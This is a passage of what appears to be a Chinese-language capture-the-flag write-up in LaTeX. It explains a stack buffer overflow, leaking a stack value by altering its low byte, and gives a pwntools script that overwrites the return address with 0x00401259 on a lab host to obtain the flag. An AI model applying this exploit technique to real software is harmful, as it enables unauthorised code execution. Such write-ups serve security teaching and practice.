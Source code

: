 \documentclass{article}
\begin{document}
    [rbp-0x8]，即0x7fffffffeb28。需要注意的是, local\_10的最低字节固定为0，意味着第一次打印到此处会停止，因此我们需要更改最后一个字节为'1'，再次输入的时候把local\_10最低位更改为0即可。栈顶距离eip存放地址的字节数为0x78。最终脚本如下：
    \begin{itemize}
    	\item 脚本2
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40004)

io.recvuntil("something")

io.send(b'A'*0x64 + b'ABCD1')

io.recvuntil("ABCD")

local_10 = u64(io.recv(8))

local_10 -= 49

io.send(b'q'*0x68 + p64(local_10) + b'a'*0x8 + p32(0x00401259))

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下，得到flag。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{6.png}
    	\end{center}
    \end{figure}
\end{document}

